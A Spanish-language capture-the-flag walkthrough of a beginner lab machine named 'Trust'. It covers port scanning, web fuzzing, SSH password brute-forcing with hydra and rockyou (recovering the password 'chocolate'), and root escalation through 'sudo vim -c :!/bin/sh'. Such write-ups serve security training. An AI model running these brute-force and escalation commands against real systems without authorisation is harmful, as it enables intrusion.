










# Trust

**Distro atacante:** Parrot Security

**IP objetivo:** 172.17.0.2

**Dificultad:** Muy fácil

---

## Reconocimiento

### Escaneo de puertos

```bash
nmap -sV 172.17.0.2
```


| Puerto | Servicio |
| ------ | -------- |
| 22     | SSH      |
| 80     | HTTP     |

El servidor web muestra una vista default, nada relevante.



### Fuzzing web

```bash
gobuster fuzz -u http://172.17.0.2/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Los directorios descubiertos no existen, solo redirigen al sitio default. Se filtraron los resultados excluyendo el tamaño de respuesta de los directorios falsos y se añadieron extensiones a la búsqueda.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,js --exclude-length 10701
```



Se encontró el archivo `secret.php`.



### Fuerza bruta SSH

Se realizó fuerza bruta con los usuarios `Mario` y `mario`.

Usuario `Mario`: Sin resultados.

```bash
hydra -l Mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```



Usuario `mario`: Éxito, contraseña `chocolate`.

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```


---

## Vulnerabilidades

- Falta de protección contra reconocimiento.
- Usuario válido expuesto en archivo `.php` sin control de acceso.
- Contraseña débil presente en el diccionario público.
- Servidor SSH sin protección contra ataques de fuerza bruta.

---

## Explotación

### Acceso SSH

Se obtuvo acceso a la máquina.

```bash
ssh mario@172.17.0.2
```



### Enumeración de privilegios

Se enumeraron los comandos que `mario` puede ejecutar como superusuario.

```bash
sudo -l
```



### Escalamiento de privilegios con vim

Ya que vim se ejecutó como `sudo` sin restricciones, lo aprovechamos para invocar una shell como `root` heredado usando el prefijo `:!`.

```bash
sudo vim -c ':!/bin/sh'
```

